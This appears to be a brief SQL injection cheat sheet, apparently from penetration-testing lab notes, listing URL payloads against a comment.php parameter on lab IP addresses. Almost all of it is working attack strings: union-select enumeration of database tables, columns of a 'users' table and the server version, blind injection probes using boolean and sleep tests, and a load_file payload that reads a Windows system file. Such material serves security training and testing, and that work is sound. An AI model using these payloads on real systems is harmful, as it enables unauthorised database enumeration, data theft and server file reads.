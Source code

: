 # SQL Injection

### Enumerating the Database (using union statements)
```
http://10.x.x.x/comment.php?id=782%20union%20select%201,2,3,4,table_name,6%20from%20information_schema.tables
http://10.x.x.x/comment.php?id=782%20union%20select%201,2,3,4,@@version,6
http://10.x.x.x/comment.php?id=782%20union%20select%201,2,3,4,5,6
http://10.x.x.x/comment.php?id=782%20union%20all%20select%201,2,3,4,column_name,6%20from%20information_schema.columns%20where%20table_name=%27users%27
```

### Blind SQL Injection
```
http://10.x.x.x/comment.php?id=782%20and%201=1 (and 1=1)
http://10.x.x.x/comment.php?id=782-sleep(5) (-sleep(5))
```

### Load_File Function
```
http://10.11.14.19/comment.php?id=782%20union%20all%20select%201,2,3,4,load_file(“c:/windows/system32/drivers/etc/hosts”),6
```
